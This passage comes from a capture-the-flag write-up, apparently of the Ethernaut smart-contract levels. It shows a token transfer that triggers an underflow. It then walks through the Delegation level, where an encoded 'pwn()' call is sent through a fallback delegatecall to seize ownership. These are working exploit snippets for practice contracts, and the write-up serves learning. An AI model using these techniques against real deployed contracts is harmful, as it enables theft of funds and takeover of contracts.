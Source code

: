 We got 20 tokens, So I will be generous and give more than I own.

```js
 await contract.transfer(player,21);
```

Challenge solved ✅

## Delegation

### Challenge description

The goal of this level is for you to claim ownership of the instance you are given.

### Analysis 

Here we are exposed to the `delegateCall` function. If you don't know what this function does I will try to sum it up. It's a low level way to call a method of a contract ( in our case `pwn` ) in the context of another, it means it gets the storage values and global ones of the contract who called `delegateCall`.

![Delegation pwn](images/2549219ff5c11b36a370c12f1dfd8326925489a9207074b29dfd7f83621353bc.png)  

![Delegation fallback](images/7358cfd1b967281caa40f09ba74e6e9be2e11dce5bb005022749902ece0d530a.png)  

Okay so what is *msg.data* ?
msg.data can be the function selector with the paramaters in a bytes encoded format

### Exploit

I wrote a contract to get the bytes, we can also use `web3.eth.abi.encodeFunctionCall` from the console.

```js
contract Utility {
     function pwnEncoded () public pure returns (bytes memory) {
      return abi.encodeWithSignature("pwn()"); 
    }
```

```js
await contract.sendTransaction({data:valueFromContract});
```
Challenge solved ✅
